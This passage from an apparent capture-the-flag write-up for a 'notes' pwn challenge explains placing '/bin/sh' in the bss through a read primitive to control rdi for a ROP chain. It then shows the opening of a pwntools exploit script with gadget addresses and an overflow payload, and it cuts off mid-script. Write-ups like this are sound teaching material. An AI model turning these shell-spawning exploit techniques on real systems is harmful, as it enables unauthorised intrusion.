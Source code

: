 ### rdi

This is more obvious - I wanna find a way to write "/bin/sh" into the bss so i can reference it in my ropchain. Thankfully I can use some of the note editing functionality i skipped over earlier to achieve this:

```c
__int64 __fastcall edit_id_show(__int64 shmem)
{
  syscall(1LL, 1LL, "Enter Note ID: ", 15LL);
  read(shmem, 8LL);
  syscall(1LL, 1LL, "Note Name: ", 11LL);
  syscall(1LL, 1LL, shmem + 8, 16LL);
  syscall(1LL, 1LL, "Note Content: ", 14LL);
  return syscall(1LL, 1LL, shmem + 1054, *(unsigned int *)(shmem + 24));
}
```

We can control rdi, so if we just pass a bss address, we can write 8 bytes into it using this `read(shmem, 8)`. Thankfully "/bin/sh\\x00" is exactly 8 bytes. 

After we can control these registers we can drop directly into a shell. Heres my full script:

```python
from pwn import *
from time import sleep

pname = "./notes"
context.log_level = "debug"

def cmd(stuff):
    p.sendafter(": ", stuff)

def add(id, name, size, buf):
    p.sendlineafter(": ", str(1))
    cmd(id)
    cmd(name)
    p.sendlineafter(": ", str(size))
    cmd(buf)

sc = '''
b *0x00401b81
b *0x00401795
c
'''

p = process(pname)
#p = remote("pwn.chall.bi0s.in", 34973)
gdb.attach(p, sc)
sleep(1)

# 211:0x0000000000401bc2: syscall;
syscall = 0x0000000000401bc2 

## edit note stuff 
edits = 0x00401795

# bss buffer for our rdi:
bss_buf = 0x00000000404050

alarm_plt = 0x401060
# 179:0x0000000000401bc0: pop rdi; ret;
rdi = 0x0000000000401bc0

pload = b"A"*64
pload += b"C"*8
```